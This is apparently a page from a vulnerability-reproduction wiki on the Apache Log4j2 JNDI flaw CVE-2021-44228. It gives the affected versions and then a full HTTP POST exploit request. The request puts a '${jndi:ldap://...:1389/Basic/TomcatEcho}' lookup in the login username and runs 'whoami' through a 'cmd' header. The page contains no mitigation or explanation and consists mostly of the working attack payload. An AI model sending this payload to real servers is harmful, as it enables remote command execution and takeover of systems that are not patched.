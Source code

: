 ```yaml
---
title: Apache Log4j2 JNDI remote command execution vulnerability CVE-2021-44228
---
```


# Apache Log4j2 JNDI remote command execution vulnerability CVE-2021-44228

## Vulnerability Description

Apache Log4j2 is a very widely used Java logging framework. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">2.0~2.14.1</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">JAVA application using this dependency</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">No exact syntax</span>

## Vulnerability reappears

Parameter point send request

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1639112758169-0e01d095-78c9-475c-94bc-9a05ae161b7f.png)

```go
POST /api/2.0/login HTTP/1.1
Host:
Cookie: JSESSIONID_AV=567CEDA964EE4D5DA8B7FC8C90912B01
Content-Length: 86
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96", "Google Chrome";v="96"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
cmd: whoami
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

{"username":"${jndi:ldap://xxx.xxx.xxx.xxx:1389/Basic/TomcatEcho}","password":"admin"}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1639112868435-e938cac8-d736-466c-acc0-f94fae3ef688.png)